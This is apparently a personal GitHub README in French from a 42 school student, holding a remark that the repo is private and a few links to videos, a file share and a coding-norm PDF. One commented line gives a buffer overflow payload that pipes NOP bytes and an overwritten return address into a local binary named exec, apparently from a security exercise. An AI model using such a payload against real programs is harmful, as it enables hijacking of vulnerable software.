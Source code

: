 # blackhole

ce repo est perso (mais sans rien de compromettant) donc pas la peine de le regarder

https://www.youtube.com/watch?time_continue=5&v=uAgFf0sC8hM

#	(python -c 'print 90*"\x90"+"\x84\x64\x04\x08"' ; cat) | ./exec

https://mega.nz/#!XkYiDQaZ!Nj2iCXmUrQh8qEgfq_jZPcW32gvmGqUIplwC6PPMCcE

https://www.youtube.com/watch?v=m9r2zZDiYs4

https://cdn.intra.42.fr/pdf/pdf/317/norme.fr.pdf
